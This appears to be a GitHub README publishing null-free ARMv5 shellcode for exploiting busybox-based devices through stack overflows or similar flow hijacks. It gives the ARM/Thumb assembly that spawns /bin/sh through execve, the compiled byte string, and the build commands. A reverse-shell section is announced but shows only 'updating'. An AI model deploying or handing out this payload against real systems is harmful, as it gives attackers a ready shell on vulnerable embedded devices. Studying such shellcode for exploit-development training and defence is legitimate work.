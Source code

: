 # Armv5_shellcode

>Background:
> 	 Since the default armv7 syntax of the shellcode generated in pwntools cannot be executed under the armv5 instruction set chip, the following shellcode is written to facilitate the exploitation of vulnerabilities. This shellcode can be used by the armv5 test without null byte. This shellcode mainly operates on the stack and does not modify the code segment and data segment.
>Applicable scenarios:
>
>    	 1. The target applies to busybox
>    	 2. There are stack overflow or other vulnerabilities that can hijack program flow
>    	 3. Arrange this shellcode in memory



###### Applicable to busybox

```
/*
#execve("/bin/sh",["/bin/sh"],NULL)
#Date:2022-4-14
#Author:doudoudedi
#Text:F1C200s
*/
.section .text
.global _start

_start:
	.ARM
	mov r7,#0x68
	strb r7,[sp,#-0x15]
	mov r7,#0x73
	strb r7,[sp,#-0x16]
	mov r7,#0x2f
	strb r7,[sp,#-0x17]
	mov r7,#0x6e
	strb r7,[sp,#-0x18]
	mov r7,#0x69
	strb r7,[sp,#-0x19]
	mov r7,#0x62
	strb r7,[sp,#-0x1a]
	mov r7,#0x2f
	strb r7,[sp,#-0x1b]
	eor r3,r3,r3
	eor r2,r2,r2
	eor r4,r4,r4
	add r4,sp,#-0x1b
	add r3,pc,#1
	bx  r3
	.THUMB
	mov r0,r4
	push {r0,r1}
	mov r1,sp
	mov r2,#1
	sub r2,r2,#1
	mov r7,#0xb
	svc #1

/*
Compile and link with: 
# arm-linux-gnueabi-as -o shellcode.o shellcode.s
# arm-linux-gnueabi-ld -N shellcode.o -o shellcode
# arm-linux-gnueabi-objcopy -O binary --only-section=.text shellcode shellcode.text

"\x68\x70\xa0\xe3\x15\x70\x4d\xe5\x73\x70\xa0\xe3\x16\x70\x4d\xe5\x2f\x70\xa0\xe3\x17\x70\x4d\xe5\x6e\x70\xa0\xe3\x18\x70\x4d\xe5\x69\x70\xa0\xe3\x19\x70\x4d\xe5\x62\x70\xa0\xe3\x1a\x70\x4d\xe5\x2f\x70\xa0\xe3\x1b\x70\x4d\xe5\x03\x30\x23\xe0\x02\x20\x22\xe0\x04\x40\x24\xe0\x1b\x40\x4d\xe2\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x20\x1c\x03\xb4\x69\x46\x01\x22\x01\x3a\x0b\x27\x01\xdf\xc0\x46"
*/
```

##### Reverse Shell TCP(Armv5)

updating
